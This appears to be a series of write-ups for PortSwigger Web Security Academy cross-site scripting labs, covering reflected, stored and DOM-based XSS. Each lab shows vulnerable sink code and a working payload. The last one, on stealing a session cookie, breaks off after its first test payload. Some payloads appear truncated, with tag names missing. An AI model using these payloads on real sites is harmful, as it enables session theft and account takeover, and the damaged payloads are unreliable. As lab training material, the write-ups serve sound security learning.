01 Reflected XSS into HTML context with nothing encoded
==========================================================

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function.

---------------------------------------------

Reference: https://portswigger.net/web-security/cross-site-scripting/reflected

---------------------------------------------

There is a search functionality that takes the user input and uses it to generate the next HTML code:


Searching “<script>alert(1)</script>” you see the alert popping:


02 Stored XSS into HTML context with nothing encoded
====================================================

This lab contains a stored cross-site scripting vulnerability in the comment
functionality.

To solve this lab, submit a comment that calls the alert function when the blog
post is viewed.

Reference: https://portswigger.net/web-security/cross-site-scripting/stored

There is a functionality to post comments in each blog post:



If you check the blog post again you see the alert popping:




03 DOM XSS in document.write sink using source location.search
=============================================================
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

---------------------------------------------

References:

- https://portswigger.net/web-security/cross-site-scripting/dom-based

---------------------------------------------


There is a search function in "/?search=":


In the source code we see the sink:

```
function trackSearch(query) {
    document.write('');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```


We can pop an alert with the payload:

```
"><script>alert(1)</script>
```


04 DOM XSS in innerHTML sink using source location.search
=========================================================

This lab contains a DOM-based cross-site scripting vulnerability in the search
blog functionality. It uses an innerHTML assignment, which changes the HTML
contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert
function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/dom-based

There is a search function in "/?search=":



In the source code we see the sink:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



The HTML content of the searchMessage, a span HTML element, is generated from
the content of the “search" GET parameter of the request. We can pop an alert
with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
< src=x onerror=alert(1) />
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



05 DOM XSS in jQuery anchor href attribute sink using location.search source
============================================================================

This lab contains a DOM-based cross-site scripting vulnerability in the submit
feedback page. It uses the jQuery library's \$ selector function to find an
anchor element, and changes its href attribute using data from location.search.

To solve this lab, make the "back" link alert document.cookie.

References:

-   https://portswigger.net/web-security/cross-site-scripting/dom-based

This is the sink in the "Submit Feedback" page:



And the url of the "Submit Feedback" page is
https://0af5007903b0426b803b4e9100cb0023.web-security-academy.net/feedback?returnPath=/:



It is possible to use a Javascript url like:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/feedback?returnPath=javascript:alert(document.cookie)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



06 DOM XSS in jQuery selector sink using a hashchange event
===========================================================

This lab contains a DOM-based cross-site scripting vulnerability on the home
page. It uses jQuery's \$() selector function to auto-scroll to a given post,
whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print()
function in their browser.

References:

-   https://portswigger.net/web-security/cross-site-scripting/dom-based

This is the problematic code in the Home page:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



To exploit it, it is possible to use the same payload as in
https://portswigger.net/web-security/cross-site-scripting/dom-based:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<iframe style="width:100%;height:100%" src="https://0ae000fe04dcc1068048c1f000ed005b.web-security-academy.net#" onload="this.src+='< src=1 onerror=print(1)>'">
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



07 Reflected XSS into attribute with angle brackets HTML-encoded
================================================================

This lab contains a reflected cross-site scripting vulnerability in the search
blog functionality where angle brackets are HTML-encoded. To solve this lab,
perform a cross-site scripting attack that injects an attribute and calls the
alert function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts



When we search “aaaa” it becomes the “value” of this HTML element:



With this payload the alert pops:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
" autofocus onfocus=alert(1) x="
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



This is the HTML content which explains why the payload worked:



08 Stored XSS into anchor href attribute with double quotes HTML-encoded
========================================================================

This lab contains a stored cross-site scripting vulnerability in the comment
functionality. To solve this lab, submit a comment that calls the alert function
when the comment author name is clicked.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts



It is possible to post comments:



This is the HTML element generated:



When the user name is clicked, it redirects to the website set in the comment:




We will set the website to a javascript url:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
javascript:alert(1)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



When clicked, the alert pops:



09 Reflected XSS into a JavaScript string with angle brackets HTML encoded
==========================================================================

This lab contains a reflected cross-site scripting vulnerability in the search
query tracking functionality where angle brackets are encoded. The reflection
occurs inside a JavaScript string. To solve this lab, perform a cross-site
scripting attack that breaks out of the JavaScript string and calls the alert
function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts



When we search “aaaa”, it generates a page with the following code:



With a payload like:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
';alert(1);echo 'a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We see the code is now:


With this payload the alert pops:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
';alert(1)//
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




10 DOM XSS in document.write sink using source location.search inside a select element
=======================================================================================

This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function.

---------------------------------------------

References:

- https://portswigger.net/web-security/cross-site-scripting/dom-based

---------------------------------------------


The sink is:

```
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```


The parameter storeId is written between "<option selected>" and "</option>". That means if we add that value in the GET request it appears between the options, for example accessing "/product?productId=4&storeId=1":


To escape the option tags we can use the payload:

```
</option><script>alert(1)</script><option selected>
```

```
/product?productId=4&storeId=</option><script>alert(1)</script><option%20selected>
```


11 DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
=====================================================================================

This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS
expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML
nodes containing the ng-app attribute (also known as an AngularJS directive).
When a directive is added to the HTML code, you can execute JavaScript
expressions within double curly braces. This technique is useful when angle
brackets are being encoded.

To solve this lab, perform a cross-site scripting attack that executes an
AngularJS expression and calls the alert function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/dom-based

There is a search function:



The string is part of a h1 tag:



Searching "\<'\>" we find "\>", "\<" and "'" are HTML-encoded:



Using curly-braces we find this payload is interpreted:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{1== 1 ? "Yes, it is equal" : "No, it is not"}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





I could pop an alert with the example from
https://stackoverflow.com/questions/66759842/what-does-object-constructor-constructoralert1-actually-do-in-javascript:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 {{constructor.constructor('alert(1)')()}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



The official solution is similar: {{\$on.constructor('alert(1)')()}}

12 Reflected DOM XSS
====================

This lab demonstrates a reflected DOM vulnerability. Reflected DOM
vulnerabilities occur when the server-side application processes data from a
request and echoes the data in the response. A script on the page then processes
the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

To solve this lab, create an injection that calls the alert() function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/dom-based

There is a Javascript script in /resources/js/searchResults.js, which is:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

        for (var i = 0; i < searchResults.length; ++i)
        {
            var searchResult = searchResults[i];
            if (searchResult.id) {
                var blogLink = document.createElement("a");
                blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                if (searchResult.headerImage) {
                    var headerImage = document.createElement("");
                    headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                    blogLink.appendChild(headerImage);
                }

                blogList.appendChild(blogLink);
            }

            blogList.innerHTML += "<br/>";

            if (searchResult.title) {
                var title = document.createElement("h2");
                title.innerText = searchResult.title;
                blogList.appendChild(title);
            }

            if (searchResult.summary) {
                var summary = document.createElement("p");
                summary.innerText = searchResult.summary;
                blogList.appendChild(summary);
            }

            if (searchResult.id) {
                var viewPostButton = document.createElement("a");
                viewPostButton.setAttribute("class", "button is-small");
                viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                viewPostButton.innerText = "View post";
            }
        }

        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The sink should be:



There is a request to /search-results



The response to /search-results:



The correct payload from the solution:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
\"-alert(1)}//
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   Server adds  to " so " becomes "".

-   } closes the JSON object

-   // comments the rest of the object



13 Stored DOM XSS
=================

This lab demonstrates a stored DOM vulnerability in the blog comment
functionality. To solve this lab, exploit this vulnerability to call the alert()
function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/dom-based

It is possible to post comments:


It generates the following HTML code:



We can try the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
</p>< src=x onerror=alert(1) /><p>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



It pops an alert:



14 Exploiting cross-site scripting to steal cookies
===================================================

This lab contains a stored XSS vulnerability in the blog comments function. A
simulated victim user views all comments after they are posted. To solve the
lab, exploit the vulnerability to exfiltrate the victim's session cookie, then
use this cookie to impersonate the victim.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that
does not require Burp Collaborator. However, it is far less subtle than
exfiltrating the cookie.

References:

-   https://portswigger.net/web-security/cross-site-scripting/exploiting

First we test the XSS in one of the blog posts. This payload works:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
</p>< src=x onerror=alert(1) /><p>
